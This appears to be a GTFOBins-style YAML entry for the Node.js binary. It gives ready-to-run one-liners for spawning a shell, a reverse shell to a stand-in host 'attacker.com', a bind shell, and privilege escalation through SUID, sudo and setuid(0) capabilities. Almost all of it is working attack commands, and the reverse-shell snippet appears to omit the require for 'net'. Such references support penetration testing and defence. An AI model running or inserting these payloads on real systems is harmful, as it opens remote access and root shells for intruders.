 ```yaml
---
name: node
functions:
  shell:
    - code: |
        node -e 'require("child_process").spawn("/bin/sh", {stdio: [0, 1, 2]});'
  reverse-shell:
    - description: Run `nc -l -p 12345` on the attacker box to receive the shell.
      code: |
        export RHOST=attacker.com
        export RPORT=12345
        node -e 'sh = require("child_process").spawn("/bin/sh");
        net.connect(process.env.RPORT, process.env.RHOST, function () {
          this.pipe(sh.stdin);
          sh.stdout.pipe(this);
          sh.stderr.pipe(this);
        });'
  bind-shell:
    - description: Run `nc target.com 12345` on the attacker box to connect to the shell.
      code: |
        export LPORT=12345
        node -e 'sh = require("child_process").spawn("/bin/sh");
        require("net").createServer(function (client) {
          client.pipe(sh.stdin);
          sh.stdout.pipe(client);
          sh.stderr.pipe(client);
        }).listen(process.env.LPORT);'
  suid:
    - code: |
        ./node -e 'require("child_process").spawn("/bin/sh", ["-p"], {stdio: [0, 1, 2]});'
  sudo:
    - code: |
        sudo node -e 'require("child_process").spawn("/bin/sh", {stdio: [0, 1, 2]});'
  capabilities:
    - code: |
        ./node -e 'process.setuid(0); require("child_process").spawn("/bin/sh", {stdio: [0, 1, 2]});'
---
```

